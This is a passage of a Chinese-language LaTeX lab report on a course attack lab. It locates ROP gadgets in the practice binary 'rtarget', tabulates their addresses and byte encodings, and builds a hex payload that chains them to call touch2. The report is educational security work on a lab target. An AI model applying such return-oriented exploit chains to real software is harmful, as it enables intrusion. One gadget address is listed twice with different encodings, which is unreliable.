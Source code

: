 \documentclass{article}
\begin{document}
由于发现只能将pop出的值赋给rax寄存器，因此我们还需要执行指令“movq \%rax,\%rdi”，查表，发现其十六进制编码为“48 89 c7”。因此，我们搜索“48 89 c7 c3”，得到可用的程序片段如下表所示(gadget\_2)：

\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码   & 指令                       \\
      \hline
      0x4019a2 & 48 89 c7 c3    & \thead[l]{movq \%rax,\%rdi \\ ret} \\
      \hline
      0x4019c5 & 48 89 c7 90 c3 & \thead[l]{movq \%rax,\%rdi \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}

因此，我们构造一份十六进制数据，起始时先将缓冲区填满，然后依次为gadget\_1，cookie，gadget\_2，touch2。使用其中一组数据构造的十六进制数据phase4.txt如下。

\begin{lstlisting}[title=为phase\_4构造的十六进制数据, numbers=none,xleftmargin = 9em,xrightmargin = 9em]
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  ab 19 40 00 00 00 00 00
  fa 97 b9 59 00 00 00 00
  a2 19 40 00 00 00 00 00
  ec 17 40 00 00 00 00 00 
\end{lstlisting}
使用工具hex2raw将其转换成攻击字符串并运行程序。
\begin{lstlisting}[language=bash]
    linux> ./hex2raw < phase4.txt | ./rtarget -q
\end{lstlisting}

\paragraph*{5) phase\_5}在本部分，我们需要使用ROP攻击重新完成phase\_3的任务。

首先，我们需要获取栈指针的位置。查表可知，“movq \%rsp,\%*”的十六进制表示为“48 89 e*”，搜索可得下表：

\begin{table}[H]
  \begin{center}
    \begin{tabular}{|c|c|c|}
      \hline
      地址     & 十六进制编码   & 指令                       \\
      \hline
      0x401a06 & 48 89 e0 c3    & \thead[l]{movq \%rsp,\%rax \\ ret} \\
      \hline
      0x4019c5 & 48 89 e0 90 c3 & \thead[l]{movq \%rsp,\%rax \\ nop \\ ret} \\
      \hline
    \end{tabular}
  \end{center}
\end{table}
\end{document}
